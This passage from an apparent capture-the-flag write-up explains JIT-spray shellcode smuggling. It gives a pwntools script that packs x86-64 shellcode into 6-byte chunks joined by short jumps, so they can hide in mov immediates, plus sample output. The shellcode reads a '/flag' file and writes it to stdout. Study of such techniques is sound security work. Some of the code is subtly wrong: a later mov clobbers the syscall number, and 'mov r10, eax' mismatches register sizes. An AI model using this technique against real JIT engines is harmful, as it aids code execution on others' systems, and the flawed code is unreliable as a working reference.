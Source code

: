 ```py
print(hex(u64((tmp.ljust(6, b"\x90") + asm("jmp $+9")))))

'''
0x7eb900068732fbb 1.630394162327604e-270
0x7eb909020e3c148 1.630523884017562e-270
0x7eb906e69622fba 1.6304934513099134e-270
0x7ebc03153d30148 1.6415294311136155e-270
0x7eb90e789483bb0 1.6306027780368592e-270
0x7eb90f63148d231 1.6306160067349917e-270
0x7eb90909090050f 1.6305242777505848e-270
'''
```

If you spend more time on this, you can make a better shellcode generator. For example, for a [hypervisor](https://github.com/tourpran/pwn-hub/tree/main/ctf/nite) challenge, I smuggled this particular type shellcode into the JIT-ted area. 
```py
from pwn import *

context.arch = "amd64"

sh = """mov eax, 2
    pushw 0x0067
    pushw 0x616c
    pushw 0x662f
    xchg rdi, rsp
    xor esi, esi
    xor edx, edx
    syscall
    mov esi, eax
    mov edi, 1
    mov al, 40
    mov eax, 0x100
    mov r10, eax
    syscall
    """.split("\n")

cnt = 0
reg = ["rdi", "rsi", "rdx", "r15", "r14", "r13", "r12", "r11", "r10", "r9", "r8","rdi"]
tmp = b""
final = ""
for ins in sh:
    print(ins)
    if(len(tmp + asm(ins)) >= 6):
        final += f"\"mov {reg[cnt]}, 0x{asm("jmp $+8")[::-1].hex() + "90"*(6-len(tmp)) + tmp[::-1].hex()};\"\n"
        tmp = asm(ins)
        cnt += 1
    else:
        tmp += asm(ins)

final +=  f"\"mov {reg[cnt]}, 0x{asm("jmp $+8")[::-1].hex() + "90"*(6-len(tmp)) + tmp[::-1].hex()};\"\n"

print(final)
```
